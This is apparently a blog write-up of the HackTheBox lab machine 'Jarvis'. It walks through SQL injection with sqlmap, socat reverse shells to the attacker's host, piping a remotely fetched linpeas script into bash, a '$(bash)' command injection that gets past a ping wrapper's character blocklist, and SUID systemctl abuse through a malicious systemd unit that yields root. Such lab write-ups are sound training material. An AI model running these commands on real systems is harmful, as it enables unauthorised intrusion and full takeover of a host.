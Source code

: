 ```yaml
---
title: "Jarvis - HackTheBox"
date: "2019-11-09"
tags: [SQL injection, systemctl, misconfiguration, SUID]
---
```


## Information gathering

Let's run a quick nmap scan:
```
$ nmap -A -T4 10.10.10.143
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-22 20:09 EDT
Nmap scan report for 10.10.10.143
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

## Exploration

The website is a hotel presentation and trying to run `gobuster` on it get us
banned and the site will respond with this message:

> Hey you have been banned for 90 seconds, don't be bad

Nevermind, let's wait a bit.

Exploring the website, we can see that the link to each room uses a `GET`
parameter to indicate the number of the room, for example:
```
http://10.10.10.143/room.php?cod=1
```
We can try to see if it's vulnerable to `SQL` injection by visiting the
following URL:
```
http://10.10.10.143/room.php?cod=1337 or 1=1
```
It will return the first room even if the `cod` parameter does not match,
because the `or 1=1` condition, makes the query looks like (it's an assumption):
```
SELECT * FROM rooms where code = 1337 or 1=1
```

## Getting a shell

We can try to get a shell using `sqlmap` by using the `--os-shell` option:
```
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell --random-agent
```
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/jarvis/www-data-shell.png)

And it does work! We have a shell as `www-data` user.

We can get a better shell than this one by running a `socat` listener on our
machine with this command:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1337
```
and connect to it with this command:
```
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1337
```

## Further enumeration

The following step is to run an enumeration script on the machine, I choose 
[linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

So after running a web server on our machine with `python2.7 -m SimpleHTTPServer
8080` let's run the script on the remote machine with `curl
http://10.10.14.8:8080/linpeas.sh | bash`.

There seems to be an interesting command that we can run as the user `pepper`
without providing it's password:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/jarvis/simpler.png)

Here's the code of `simpler.py` (I removed the useless parts):
```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It's a wrapper to the `ping` command, and it basically pings any host that we
provide as input. There are some characters that we can not use as input, but
luckily we can use `$`, `(` and `)`.  
We can easily get a shell by using `$(bash)` as the ip to connect to:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/jarvis/user-shell.png)

And then let's get the flag:
```
pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege escalation

By running again `linpeas.sh` we stumble upon an unusual executable who has the
`SUID` bit set, `systemctl`. We can exploit this to run any command as `root`, so
let's create a `systemd` service file that will gets us a reverse shell:
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1338"
[Install]
WantedBy=multi-user.target
```
And after setting up our `socat` listener, let's install and run the service:
```
$ systemctl link /home/pepper/shell.service
$ systemctl enable --now /home/pepper/shell.service
```

And here's our shell! Let's get the flag:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1338
root@jarvis:/# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

See you in the next one! Thanks for reading!

